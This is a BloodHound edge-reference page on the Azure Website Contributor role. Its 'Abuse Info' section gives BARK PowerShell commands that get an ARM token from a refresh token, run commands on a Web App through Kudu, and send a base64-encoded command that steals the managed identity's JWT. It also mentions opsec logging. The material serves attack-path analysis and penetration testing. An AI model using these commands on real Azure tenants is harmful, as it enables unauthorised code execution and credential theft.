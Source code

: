 ---
title: AZWebsiteContributor
description: "The Website Contributor role grants full control of the target Function App or Web App. Full control of either of those types of resources allows for arbitrary command execution against the target resoruce."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>



## Abuse Info

You can use BARK’s Invoke-AzureRMWebAppShellCommand function to execute commands on a target Web App. You can use BARK’s New-PowerShellFunctionAppFunction, Get-AzureFunctionAppMasterKeys, and Get-AzureFunctionOutput functions to execute arbitrary commands against a target Function App.

These functions require you to supply an Azure Resource Manager scoped JWT associated with the principal that has the privilege to execute commands on the web app or function app. There are several ways to acquire a JWT. For example, you may use BARK’s Get-ARMTokenWithRefreshToken to acquire an Azure RM-scoped JWT by supplying a refresh token:

```bash
$ARMToken = Get-ARMTokenWithRefreshToken `
    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
    -TenantID "contoso.onmicrosoft.com"
```
Now you can use BARK’s Invoke-AzureRMWebAppShellCommand function to execute a command against the target Web App. For example, to run a simple “whoami” command:

```bash
Invoke-AzureRMWebAppShellCommand `
    -KuduURI "https://mycoolwindowswebapp.scm.azurewebsites.net/api/command" `
    -Token $ARMToken `
    -Command "whoami"
```
If the Web App has a managed identity assignments, you can use BARK’s Invoke-AzureRMWebAppShellCommand function to retrieve a JWT for the managed identity Service Principal like this:

```bash
PS C:\> $PowerShellCommand =
        $headers=@{"X-IDENTITY-HEADER"=$env:IDENTITY_HEADER}
        $response = Invoke-WebRequest -UseBasicParsing -Uri "$($env:IDENTITY_ENDPOINT)?resource=https://storage.azure.com/&api-version=2019-08-01" -Headers $headers
        $response.RawContent

PS C:\> $base64Cmd = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($PowerShellCommand))

PS C:\> $Command = "powershell -enc $($base64Cmd)"

PS C:\> Invoke-AzureRMWebAppShellCommand `
        -KuduURI "https://mycoolwindowswebapp.scm.azurewebsites.net/api/command" `
        -token $ARMToken `
        -Command $Command

```
If successful, the output will include a JWT for the managed identity service principal.

## Opsec Considerations

This will depend on which particular abuse you perform, but in general Azure will create a log event for each abuse.

## References

* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
* [https://www.netspi.com/blog/technical/cloud-penetration-testing/lateral-movement-azure-app-services/](https://www.netspi.com/blog/technical/cloud-penetration-testing/lateral-movement-azure-app-services/)
* [https://posts.specterops.io/abusing-azure-app-service-managed-identity-assignments-c3adefccff95](https://posts.specterops.io/abusing-azure-app-service-managed-identity-assignments-c3adefccff95)
